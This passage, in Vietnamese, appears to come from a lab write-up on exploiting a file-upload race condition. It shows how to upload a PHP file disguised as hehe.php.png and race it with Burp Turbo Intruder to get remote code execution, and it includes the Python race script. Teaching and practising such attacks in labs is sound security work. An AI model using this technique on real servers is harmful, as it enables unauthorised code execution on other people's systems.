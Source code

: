Thử đổi file thành `hehe.php.png` và upload lên hệ thống thì có hệ thống đã cho phép tải RCE code lên nhưng dưới extension PNG :3

![Đổi thành hehe.php.png](race-condition/changefile.jpg)

Sau đó, sử dụng tiện ích [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) trong Burp Store để có thể intruder theo ý ta muốn.

Trong HTTP History, ta tìm kiếm request mà đã upload thành công hehe.php.png, sau đó chuột phải -> Extensions -> Turbo Intruders -> Send to Turbo Intruder:

![Gửi qua Turbo Intruders](race-condition/sendtoturbo.jpg)

Tiếp theo, ta sử dụng [đoạn code dưới đây](race-condition/turbo-sample.py) và thay đổi <YOUR-POST-REQUEST> thành request POST đã gửi thành công file hehe.php.png, thay đổi <YOUR-GET-REQUEST> thành request đến `/files/avatars/hehe.php.png`. Đại loại thì đoạn code này sẽ giúp cho request của ta được tồn tại lâu hơn và tệp hehe.php (sau khi bỏ .png ở các request thay đổi) có thể thực thi trên server:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```
